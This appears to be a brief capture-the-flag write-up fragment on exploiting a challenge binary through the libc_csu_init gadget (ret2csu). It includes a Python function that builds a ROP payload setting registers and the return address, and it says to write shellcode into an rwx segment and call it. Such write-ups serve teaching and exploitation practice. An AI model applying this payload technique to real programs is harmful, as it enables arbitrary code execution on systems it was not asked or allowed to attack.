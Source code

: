 # Exploit Works  
in challenge Binary, Due to insufficient gadgets in the binary, proceed to exploit via the 'libc_csu_init' function.  

```python  
def csu_init(func, arg1, arg2, arg3, returns):
	payload =  'A' * 8
	payload += p64(0)    # rbx
	payload += p64(1)    # rbp
	payload += p64(func) # r12
	payload += p64(arg1) # r13
	payload += p64(arg2) # r14
	payload += p64(arg3) # r15
	payload += p64(returns) # rip
	return payload
```


and write Shellcodes in rwx segment (0x601000-0x602000), call it
